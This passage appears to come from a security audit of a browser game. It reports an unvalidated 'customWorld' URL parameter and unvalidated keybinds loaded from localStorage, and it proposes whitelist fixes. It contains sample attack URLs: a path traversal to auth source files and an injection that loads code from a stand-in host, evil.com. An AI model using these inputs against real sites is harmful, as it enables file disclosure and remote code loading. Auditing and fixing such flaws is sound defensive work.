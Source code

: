 #### Attack Vector
```
# Path traversal attack
https://yoursite.com/game/?customWorld=../../src/js/auth

# Protocol injection
https://yoursite.com/game/?customWorld=//evil.com/malicious
```

#### Impact
- Read arbitrary files via path traversal
- External resource loading (SSRF-like)
- Information disclosure

#### Recommended Fix
```javascript
// Whitelist validation
const ALLOWED_WORLDS = ['tir-na-nog', 'default', 'test'];

const customWorldParam = urlParams.get('customWorld');
if (customWorldParam) {
    // Sanitize: alphanumeric and hyphens only
    const sanitized = customWorldParam.replace(/[^a-z0-9-]/gi, '');
    
    // Whitelist check
    if (!ALLOWED_WORLDS.includes(sanitized)) {
        console.error('Invalid world name');
        game = new Game(null, null);
    } else {
        const worldPath = `worlds/${sanitized}/world.json`;
        const customWorldData = await World.loadFromFile(worldPath);
        // ...
    }
}
```

---

### VULN-005: Keybind Injection - Code Execution
**File**: `game/ui/KeybindSettings.js`  
**Lines**: 88-96, 362-378  
**Severity**: 🟠 High  
**CVSS Score**: 6.0 (Medium)

#### Description
Keybind system stores user input without validation:

```javascript
loadKeybinds() {
    const saved = localStorage.getItem('gameKeybinds');
    if (saved) {
        try {
            const parsed = JSON.parse(saved); // ⚠️ NO VALIDATION
            this.keybinds = { ...this.defaultKeybinds, ...parsed };
        } catch (e) {
            // Falls back to defaults
        }
    }
}
```
